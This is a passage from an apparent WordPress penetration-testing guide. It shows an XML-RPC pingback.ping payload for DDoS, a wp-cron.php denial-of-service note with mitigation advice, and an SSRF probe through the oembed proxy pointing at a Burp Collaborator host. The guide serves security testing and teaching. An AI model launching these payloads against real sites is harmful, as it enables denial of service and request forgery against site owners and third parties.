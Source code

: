**DDoS**

```html
<methodCall>
    <methodName>pingback.ping</methodName>
    <params>
        <param><value><string>http://target/</string></value></param>
        <param><value><string>http://yoursite.com/and_some_valid_blog_post_url</string></value></param>
    </params>
</methodCall>
```

![](<../../images/image (110).png>)

### wp-cron.php DoS

This file usually exists under the root of the Wordpress site: **`/wp-cron.php`**\
When this file is **accessed** a "**heavy**" MySQL **query** is performed, so I could be used by **attackers** to **cause** a **DoS**.\
Also, by default, the `wp-cron.php` is called on every page load (anytime a client requests any Wordpress page), which on high-traffic sites can cause problems (DoS).

It is recommended to disable Wp-Cron and create a real cronjob inside the host that perform the needed actions in a regular interval (without causing issues).

### /wp-json/oembed/1.0/proxy - SSRF

Try to access _https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net_ and the Worpress site may make a request to you.

This is the response when it doesn't work:

![](<../../images/image (365).png>)
